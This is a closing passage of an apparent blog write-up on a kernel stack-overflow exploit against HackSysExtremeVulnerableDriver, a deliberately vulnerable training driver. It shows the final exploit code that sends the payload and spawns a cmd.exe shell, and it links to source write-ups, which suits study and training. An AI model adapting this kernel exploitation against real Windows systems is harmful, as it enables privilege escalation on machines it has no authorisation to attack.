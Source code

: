 ```c

    CreateProcessA("C:\\Windows\\System32\\cmd.exe",
        NULL,
        NULL,
        NULL,
        0,
        CREATE_NEW_CONSOLE,
        NULL,
        NULL,
        &si,
        &pi);
}

int main() {

	auto hDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, NULL, 0x3, 0, NULL);

	if (hDevice == INVALID_HANDLE_VALUE) {
		std::cout << "[-] Unable to get a handle to the driver" << std::endl;
		exit(1);
	}

    auto kernelBase = getKernelBaseAddress();

    sendPayload(hDevice, kernelBase);
    CloseHandle(hDevice);
    spawnShell();

	return 0;
}
```


The picture is from h0mbre's blog, again, I didn't have a setup at the time writing this part, but I can promise you it worked on my machine ;)
![](https://github.com/amitschendel/amitschendel.github.io/blob/master/assets/images/Pasted%20image%20220106203415.png?raw=true)

Hopefully in the next write up I am going to write about Buffer Overflow with GS, on RS5.
Thank you for reading, and thanks to all the amazing write ups out there that I can study from.

## Sources
- [h0mbre](https://h0mbre.github.io/HEVD_Stackoverflow_SMEP_Bypass_64bit/#)
- [xpn](https://blog.xpnsec.com/hevd-stack-overflow/)

